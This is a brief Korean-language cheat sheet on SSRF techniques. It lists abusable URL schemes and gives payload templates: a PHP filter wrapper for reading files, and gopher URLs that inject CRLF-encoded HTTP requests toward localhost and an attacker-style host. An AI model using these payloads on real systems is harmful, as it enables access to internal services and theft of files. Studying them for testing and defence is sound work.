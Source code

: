 ```php
# http://victim/?url=gopher://localhost:8000/_POST%20HTTP/1.1%0d%0a
```

# SSRF Exploit Technique

## SSRF 공격시 사용 가능한 Protocol 종류

- `http://` : HTTP 접속 용
- `ftp://` : ftp 접속 용
- `dict://` : RFC 2229 서버 액세스 용
- `sftp://` : sftp 접속 용
- `tftp://` : tftp 접속 용
- `ldap://` : JAVA ES 솔루션 Directory Server 용
- `gopher://` : TCP 연결용
- `netdoc://` : JDK9 버전 이하에서 사용, URL을 통해 외부적 네트워크 문서 참조용
- `file://` : 파일 읽기용

### PHP Wrapper (Only PHP)

```php
# PHP://filter/convert.base64-encode/resource=파일 경로
```

### Gopher Protocol을 활용한 HTTP 패킷 전송

- HTTP 패킷을 그대로 만들어서 전송이 가능합니다.
- 구조는 다음과 같은 형태로 구성하여 전송을 진행합니다.

```php
gopher://<proxy-server>/_GET%20http://<attacker.kr:80>/EX%20HTTP/1.1%0d%0a
gopher://<proxy-server>/_POST%20http://<attacker.kr:80>/EX%20HTTP/1.1%0d%0aContent-Length:21%0d%0aCookie:%20c_s=1%0d%0adata={a:1}
```

**Gopher HTTP (POST)**

- 정상적인 HTTP POST 요청 패킷
- `\r\n` 을 URL Encoding 하면 %0d%0a 사용됩니다.
- `Content-Length` 헤더가 존재해야 POST Body 데이터가 전송이 됩니다.

```php
POST /data HTTP/1.1\r\n
Content-Type:application/x-www-form-urlencoded\r\n
Content-Length:POST_BODY 길이\r\n
\r\n
POST_BODY
```

- Gopher 프로토콜을 활용하여 POST 패킷을 전송할 경우
- Gopher를 사용할 때 첫 한바이트는 건너 뛰고 사용해야 합니다.

```php
gopher://127.0.0.1/ _POST%20/data%20HTTP/1.1%0d%0aContent-Type:application/x-www-form-urlencoded%0d%0aContent-Length:%209%0d%0a%0d%0aPOST_BODY
```
